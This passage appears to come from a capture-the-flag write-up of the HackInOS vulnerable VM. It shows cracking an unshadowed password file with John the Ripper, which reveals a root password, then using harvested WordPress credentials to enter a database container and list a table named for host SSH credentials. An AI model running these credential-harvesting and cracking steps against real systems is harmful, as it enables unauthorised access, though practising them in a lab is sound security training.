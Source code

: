nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
{{< / highlight >}}

I thought "no way are these mapped to actual system files", and I was right.

{{< highlight markdown >}}
root@kali:~/hackinos# john --show unshadowed
root:john:0:0:root:/root:/bin/bash

1 password hash cracked, 0 left
{{< / highlight >}}

I tried using that to become root on the host, but that didn't work. duh.

### MySQL / experimental_db_1

I started out by poking around the database with the creds we harvested from the wordpress container.

{{< highlight markdown >}}
hummingbirdscyber@vulnvm:~$ docker exec -it experimental_db_1 /bin/bash

root@81a93420fd22:/# mysql -u wordpress -p wordpress 
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 5
Server version: 5.7.25 MySQL Community Server (GPL)

Copyright (c) 2000, 2019, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show tables;'
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| host_ssh_cred         |
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
13 rows in set (0.00 sec)